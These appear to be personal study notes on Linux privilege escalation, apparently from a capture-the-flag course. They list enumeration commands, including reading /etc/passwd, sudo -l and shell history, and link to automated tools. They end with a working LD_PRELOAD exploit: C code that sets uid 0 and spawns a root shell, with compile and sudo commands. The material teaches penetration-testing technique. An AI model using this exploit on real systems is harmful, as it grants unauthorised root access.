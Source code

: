 ```shell
hostname # returns hostname of the server, informational - examp: SQL-server bla
uname -a # additional sys info about kernel
/proc/version # often is on sys, info about kernel and maby if gcc compiler exists
/etc/issue # info about OS, could be changed aka deceptive?
ps -A # viewv all running processes
ps aux # processes for all users
env # show enviromental variables
sudo -l # what bins can you run as sudo
ls -la # to see hidden files
id # to see your priveleges and your group
/etc/passwd # see users on system
history # see what commands were run previously

```

```shell
# USEFUL FIND COMMANDS
find . -name flag1.txt # find the file named “flag1.txt” in the current directory
find /home -name flag1.txt # find the file names “flag1.txt” in the /home directory
find / -type d -name config # find the directory named config under “/”
find / -type f -perm 0777 # find files with the 777 permissions (files readable, writable, and executable by all users)

find / -perm a=x # find executable files
```

List of automated tools, they may miss possible vectors or simply report false positives and that's why it's important to be able to do enumeration manually.
Also tools written in python won't run on a machine without the python interpreter installed.

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

Linux kernel CVE's --- https://www.linuxkernelcves.com/cves

LD_preload
is a function that allows any program to use shared libraries.
If env_keep option is enabled in sudo -l we can generate a shared library which will be preloaded
before any program runs.
So if env_keep+=LD_PRELOAD exists next steps are:
	Write a simple C code exploit
```C
	#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
	We can save this code and compile it into shared object file
```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now we can use the exploit with any program that we can run as sudo.
```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```